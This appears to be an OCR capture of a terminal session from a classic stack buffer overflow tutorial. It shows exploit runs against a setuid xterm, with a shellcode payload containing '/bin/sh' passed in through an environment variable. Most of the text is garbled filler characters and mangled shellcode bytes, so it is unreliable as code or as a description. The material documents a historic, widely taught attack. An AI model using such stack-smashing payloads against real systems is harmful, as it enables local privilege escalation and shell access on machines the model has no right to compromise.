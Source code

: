                             V

1@/bin/shHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHH








HHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHH








HHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHH








HHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHH








HHHHHHHHHHHH
Warning: some arguments in previous message were lost
Illegal instruction
[aleph1]$ exit
.
.
.
[aleph1]$ ./exploit4 2148 600
Using address: 0xbffffb54
[aleph1]$ /usr/X11R6/bin/xterm -fg $EGG
Warning: Color name "^1FF
                           
                            V

1@/bin/shTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTT








TTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTT








TTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTT




